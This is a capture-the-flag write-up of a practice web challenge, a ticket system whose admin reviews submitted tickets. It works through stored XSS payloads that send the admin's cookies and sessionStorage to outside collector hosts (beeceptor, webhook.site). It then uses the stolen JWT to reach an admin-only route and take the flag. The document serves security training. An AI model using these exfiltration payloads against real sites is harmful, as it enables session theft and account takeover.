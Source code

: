 ```yaml
---
title: SecurityValley - The Ticketsystem
date: Wed Jul 12 06:07:58 PM +04 2023
categories: [Writeup]
tags: [ctf,securityvalley,reversing]
--- 
```


## Description

Level: 3 Score 40 Category web

Our IT department has released a new web based support system. Every user can now create a ticket if she/he needs help. Is that awesome?! And the admins have promised to check every ticket super fast. So don't forget: everybody trust the admin! And the admin trust you! Is that a mistake in the end? Please login with username 'ticket' and password '!H3LP-CNTR90' to create a ticket. Please note: the ticket-system is recreating every hour.

**Link:** [https://ctf.securityvalley.org/tfe](https://ctf.securityvalley.org/tfe)

## Analysis

We are given a simple form which allows users to submit tickets,  after submittion the admin will check the ticket. 

![the-ticketsystem-1](/assets/images/SecurityValley/the-ticketsystem-1.png)

The attack vector is possibly to steal the admin cookie. The user doesn't have cookie, but could be that admin has.

I used Cookie Stealer XSS from [WebHacking101](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md):
```html
<img src=x  onerror="this.src='https://klgrthio.free.beeceptor.com/?'+document.cookie; this.removeAttribute('onerror');">
```

![the-ticketsystem-2](/assets/images/SecurityValley/the-ticketsystem-2.png)

No luck there. 

It seems like session storage is being used, second attack vector would be Session Hijacking. If we get the admin token, we can essentially log in as admin. `access_token` seems to JWT token, if we had a secret key we could forge different key, but since we don't have it we will steal.

![the-ticketsystem-3](/assets/images/SecurityValley/the-ticketsystem-3.png)

Tweak the payload a bit:<br>
(Beeceptor wasn't working for some reason, so I switched to <https://webhook.site>)

```html
<img  src=x  onerror="this.src='https://webhook.site/<YourID>/?session='+btoa(JSON.stringify(sessionStorage)); this.removeAttribute('onerror');">
```

```
https://webhook.site/<YourID>/?session=eyJhY2Nlc3NfdG9rZW4iOiJleUpoYkdjaU9pSklVelV4TWlJc0luUjVjQ0k2SWtwWFZDSjkuZXlKeWIyeGxJam9pWVdSdGFXNGlMQ0pwYzNNaU9pSmpkR1l0Wkd4aFlpSXNJbUYxWkNJNld5SmpkR1l0Wkd4aFlpNWpiMjBpWFN3aVpYaHdJam94TmpnNU1UY3pNakV4ZlEuN1ZXWTBfd0E2MHo0M0Ftck5NOU0xUVJQaUxscW1vbFA3Z2RlX0wwRFNqdVlvZ1NGb2g0NTNlblFoQnlwa2RiMC13UFpDbFZuLWdJWU1zRUZpVVpDTHciLCJyb2xlIjoiYWRtaW4iLCJ0b2tlbl9kdXJhdGlvbiI6IjE2ODkxNzMyMTEifQ==
```

```json
{
    access_token: "eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiYWRtaW4iLCJpc3MiOiJjdGYtZGxhYiIsImF1ZCI6WyJjdGYtZGxhYi5jb20iXSwiZXhwIjoxNjg5MTczMjExfQ.7VWY0_wA60z43AmrNM9M1QRPiLlqmolP7gde_L0DSjuYogSFoh453enQhBypkdb0-wPZClVn-gIYMsEFiUZCLw",
    role: "admin",
    token_duration: "1689173211"
}
```

Hmm... I switched the values with admin values, but I see same UI, not much changed. There must be a URI which only admin can visit.

I tried searching for `ticket` (known URI) in the `main.9902a55d1e62a36b.js` (Can be accessed from "sources"). After some searching I found what seems to be routes. 

1. login -> To login 
2. ticket -> To create ticket
3. admin/:id -> View ticket (Accessible by admin)
4. Anything else -> Redirects to login (That's why `/ticket/TicketID` didn't work)

```js
        const N3 = [{
            path: "login",
            component: F3
        }, {
            path: "admin/:id",
            component: I3,
            canActivate: [Fg, oA]
        }, {
            path: "ticket",
            component: O3,
            canActivate: [Fg]
        }, {
            path: "**",
            redirectTo: "/login"
        }];
```

## Solution

1. Hijack admin session by using XSS.
2. Create a ticket
3. Visit `/admin/TicketID`: 

![the-ticketsystem-4](/assets/images/SecurityValley/the-ticketsystem-4.png)

> Flag: SecVal{XSS_GOD_YOU_ARE!!!}
{: .prompt-tip }